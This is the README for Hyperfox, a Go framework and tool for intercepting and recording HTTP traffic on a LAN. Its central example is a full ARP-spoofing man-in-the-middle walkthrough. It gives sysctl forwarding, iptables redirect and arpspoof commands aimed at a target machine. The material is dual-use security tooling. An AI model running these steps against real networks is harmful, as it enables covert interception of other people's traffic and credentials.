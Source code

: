 # Hyperfox

## The Hyperfox tool

[Hyperfox][1] is a tool for proxying and recording HTTP and HTTPs
communications on a LAN.

## The Hyperfox framework

The `github.com/xiam/hyperfox` package is a [Go][2] framework for creating
custom [man in the middle][3] or traffic interception tools, such as
[Hyperfox][1].

## Getting Hyperfox

Install with [Go][1] and [git][5] using `go get`:

```sh
> go get github.com/xiam/hyperfox
```

Precompiled packages may also be available at the [hyperfox.org][1] site.

## A common example: hyperfox with arpspoof

The following example assumes that hyperfox is installed on a Linux box (host)
on which you have root access or sudo privileges and that the target machine is
connected on the same LAN as the host.

We are going to use the `arpspoof` tool that is part of the [dsniff][4] suite
to alter the ARP table of the target machine in order to make it redirect its
traffic to Hyperfox instead of to the legitimate LAN gateway. This is an
ancient technique known as [ARP spoofing][6].

First, identify both the local IP of the legitimate gateway and its matching
network interface.

```sh
> sudo route
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
default         10.0.0.1        0.0.0.0         UG    1024   0        0 wlan0
...
```

The interface in our example is called `wlan0` and the interface's gateway is
`10.0.0.1`.

```sh
> export HYPERFOX_GW=10.0.0.1
> export HYPERFOX_IFACE=wlan0
```

Then identify the IP address of the target, let's suppose it is `10.0.0.143`.

```sh
> export HYPERFOX_TARGET=10.0.0.143
```

Enable IP forwarding on the host for it to act (temporarily) as a common
router.

```sh
> sudo sysctl -w net.ipv4.ip_forward=1
```

Issue an `iptables` rule to instruct the host to redirect all traffic that goes
to port 80 (commonly HTTP) to a local port where Hyperfox is listening to
(9999).

```sh
> sudo iptables -A PREROUTING -t nat -i $HYPERFOX_IFACE -p tcp --destination-port 80 -j REDIRECT --to-port 9999
```

We're almost ready, prepare hyperfox to receive traffic:

```sh
> hyperfox
2014/12/30 06:57:22 Hyperfox // https://www.hyperfox.org
2014/12/30 06:57:22 By José Carlos Nieto.

2014/12/30 06:57:22 See status at http://127.0.0.1:3030/
2014/12/30 06:57:22 Listening for HTTP client requests on 0.0.0.0:9999.
```

Finally, run `arpspoof` to alter the target's ARP table so it starts sending
its network traffic to the host box.

```sh
> sudo arpspoof -i $HYPERFOX_IFACE -t $HYPERFOX_TARGET $HYPERFOX_GW
```

## Contributing to Hyperfox development

Sure, there's a lot of opportunity. Choose an [issue][7], fix it and send a
pull request.

## License

> Copyright (c) 2012-2014 José Carlos Nieto, https://menteslibres.net/xiam
>
> Permission is hereby granted, free of charge, to any person obtaining
> a copy of this software and associated documentation files (the
> "Software"), to deal in the Software without restriction, including
> without limitation the rights to use, copy, modify, merge, publish,
> distribute, sublicense, and/or sell copies of the Software, and to
> permit persons to whom the Software is furnished to do so, subject to
> the following conditions:
>
> The above copyright notice and this permission notice shall be
> included in all copies or substantial portions of the Software.
>
> THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
> EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
> MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND
> NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE
> LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION
> OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION
> WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

[1]: https://hyperfox.org
[2]: https://golang.org/doc/install
[3]: http://en.wikipedia.org/wiki/Man-in-the-middle_attack
[4]: http://monkey.org/~dugsong/dsniff/
[5]: http://git-scm.com
[6]: http://en.wikipedia.org/wiki/ARP_spoofing
[7]: https://github.com/xiam/hyperfox/issues
